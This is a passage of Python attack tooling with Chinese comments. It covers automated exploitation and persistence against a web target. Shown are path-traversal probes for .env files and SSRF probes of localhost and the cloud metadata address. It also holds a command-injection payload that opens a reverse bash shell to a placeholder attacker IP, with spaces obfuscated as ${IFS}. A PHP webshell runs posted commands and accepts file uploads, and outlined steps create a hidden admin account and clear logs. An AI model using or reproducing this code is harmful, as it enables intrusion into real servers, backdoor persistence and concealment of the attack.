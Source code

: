 ```python
                "../../../.env"
            ]
            for file in files:
                self._test_payload(param, file)
                
        elif vuln_type == 'SSRF':
            # 探测内网服务
            internal_endpoints = [
                "http://localhost:80/",
                "http://localhost:8080/",
                "http://127.0.0.1:3306/",
                "http://169.254.169.254/latest/meta-data/"
            ]
            for endpoint in internal_endpoints:
                self._test_payload(param, endpoint)
                
        elif vuln_type == 'Command Injection':
            # 尝试反弹shell
            shell_payload = f"bash -i >& /dev/tcp/攻击者IP/4444 0>&1"
            encoded_payload = shell_payload.replace(" ", "${IFS}")
            self._test_payload(param, f"|{encoded_payload}")

# 使用示例
url = "https://xss-challenge-tour.bachang.org/level1.php?name=test"
info = gather_info(url)
print("网站信息:", info)

exploiter = AutoExploit(url)
exploiter.run_all_attacks()
print("发现的漏洞:", exploiter.found_vulns)
```

### 3. 持久化控制
```python
def maintain_access(url, shell_url):
    # 1. 上传WebShell
    webshell = '''<?php
    if(isset($_POST['cmd'])) {
        echo "<pre>";
        system($_POST['cmd']);
        echo "</pre>";
    }
    if(isset($_FILES['file'])) {
        move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
        echo "Uploaded: ".$_FILES['file']['name'];
    }
    ?>'''
    
    # 2. 创建隐藏的管理员账户
    
    # 3. 建立反向连接
    
    # 4. 收集敏感信息
    
    # 5. 清理日志
    
    return "后门已部署"
```
